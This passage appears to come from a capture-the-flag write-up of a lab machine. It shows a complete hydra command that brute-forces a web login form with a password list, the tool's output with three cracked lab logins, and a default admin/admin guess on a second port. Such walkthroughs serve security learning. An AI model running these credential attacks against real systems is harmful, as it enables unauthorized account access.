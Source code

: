 
And I can brute force it and get some successful logins. On a failed login
attempt, it adds a message:

![1558209959168](https://0xdfimages.gitlab.io/img/1558209959168.png)

I’ll use that as my failure criteria, and run `hydra`:

    
    
    root@kali# hydra -L users -P /usr/share/seclists/Passwords/twitter-banned.txt 10.10.10.101 http-post-form "/users/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Invalid Login Detai
    ls"
    Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-05-18 16:11:19
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 4367 login tries (l:11/p:397), ~273 tries per task
    [DATA] attacking http-post-form://10.10.10.101:80/users/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Invalid Login Details                                                                                       
    [80][http-post-form] host: 10.10.10.101   login: noro   password: password123
    [80][http-post-form] host: 10.10.10.101   login: kaneki   password: 123456
    [STATUS] 1360.00 tries/min, 1360 tries in 00:01h, 3007 to do in 00:03h, 16 active
    [STATUS] 1120.00 tries/min, 2240 tries in 00:02h, 2127 to do in 00:02h, 16 active
    [STATUS] 1038.33 tries/min, 3115 tries in 00:03h, 1252 to do in 00:02h, 16 active
    [80][http-post-form] host: 10.10.10.101   login: admin   password: abcdef
    [STATUS] 1086.50 tries/min, 4346 tries in 00:04h, 21 to do in 00:01h, 16 active
    1 of 1 target successfully completed, 3 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-05-18 16:15:21
    

I find three valid logins, but unfortunately, it is just is a troll:

![1558210387826](https://0xdfimages.gitlab.io/img/1558210387826.png)

### Website - TCP 8080

Visiting prompts for auth:

![1558187824401](https://0xdfimages.gitlab.io/img/1558187824401.png)

I was about to fire up `hydra` again, but I guessed “admin” / “admin” and it
lets me in, presenting another page about image uploads:

![1558210471996](https://0xdfimages.gitlab.io/img/1558210471996.png)

This must be the “fake art site” mentioned in `secret.php`.

At the very top, there’s a upload image panel. Additionally, if I click the
blue arrows on the right and left, there are two other panels:

![1558210540314](https://0xdfimages.gitlab.io/img/1558210540314.png)
![1558210553204](https://0xdfimages.gitlab.io/img/1558210553204.png)

